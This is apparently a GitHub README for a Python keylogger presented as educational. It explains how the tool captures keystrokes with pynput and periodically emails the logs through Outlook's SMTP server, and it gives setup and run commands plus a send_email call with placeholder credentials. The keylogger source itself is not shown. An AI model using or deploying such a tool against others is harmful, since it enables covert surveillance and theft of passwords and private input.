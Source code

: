 # Keylogger

This project provides an educational example of a keylogger developed using the Python programming language. The keylogger is designed as a simple demonstration for learning purposes. It records keyboard inputs and sends them via email at regular intervals. **Please note that this code should only be used responsibly and for educational purposes.**

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Usage](#usage)
- [Requirements](#requirements)
- [Disclaimer](#disclaimer)

## Introduction

This keylogger demonstrates how a basic keylogger can be implemented using the pynput library in Python. It captures keyboard input and saves it to a log. The logged data is then sent via email using the `smtplib` library.

## Features

- Captures keyboard inputs and records them in a log.
- Periodically sends the collected log via email.
- Minimal and educational codebase.

## Usage

1. Clone the repository to your local machine.
2. Make sure you have Python installed.
3. Install the required libraries using the following command:
   ```sh
   pip install pynput
   ```
4. Open the `keylogger.py` file in a text editor.
5. **Important:** Modify the `send_email` function parameters to use your own email and password. Replace the following line with your information:

  ```python
  send_email("your_email@outlook.com","your_password",log.encode('utf-8'))
  ```
Note: Remember to change "email_server = smtplib.SMTP("smtp-mail.outlook.com", 587)" to use another mail service.

6. Run the script by executing the following command:
  ```sh
  python3 key_logger.py
  ```

The keylogger will start capturing keyboard inputs and periodically send logs to the provided email.

Note: Use this code responsibly and only on your own devices or with explicit permission. Unauthorized use of keyloggers is against the law and unethical.

## Requirements

- Python 3.x
- pynput library

Install the required library using the following command:

```sh
pip install pynput
```

## Disclaimer

This keylogger example is intended for educational and learning purposes only. It should not be used for any malicious or unauthorized activities. 

